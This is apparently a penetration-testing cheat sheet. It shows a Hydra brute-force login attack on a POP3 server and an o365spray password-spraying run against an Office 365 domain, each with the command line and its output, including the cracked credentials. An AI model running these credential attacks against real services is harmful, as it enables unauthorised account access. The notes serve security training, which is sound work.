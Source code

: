 #### Password Attacks

##### Hydra - Password Attack

```bash
 hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-13 11:37:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries (l:67/p:1), ~5 tries per task
[DATA] attacking pop3://10.10.110.20:110/
[110][pop3] host: 10.129.42.197   login: john   password: Company01!
1 of 1 target successfully completed, 1 valid password found
```

##### O365 Spray - Password Spraying

```bash
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > spray          :  True
   > password       :  March2022!
   > userfile       :  usersfound.txt
   > count          :  1 passwords/spray
   > lockout        :  1.0 minutes
   > spray_module   :  oauth2
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
   > start          :  2022-04-14 12:26:31

>----------------------------------------<

[2022-04-14 12:26:31,757] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-14 12:26:32,201] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-14 12:26:32,202] INFO : Running password spray against 2 users.
[2022-04-14 12:26:32,202] INFO : Password spraying the following passwords: ['March2022!']
[2022-04-14 12:26:33,025] INFO : [VALID] lewen@msplaintext.xyz:March2022!
[2022-04-14 12:26:33,048] INFO : 

[ * ] Writing valid credentials to: '/opt/o365spray/spray/spray_valid_credentials.2204141226.txt'
[ * ] All sprayed credentials can be found at: '/opt/o365spray/spray/spray_tested_credentials.2204141226.txt'

[2022-04-14 12:26:33,048] INFO : Valid Credentials: 1
```
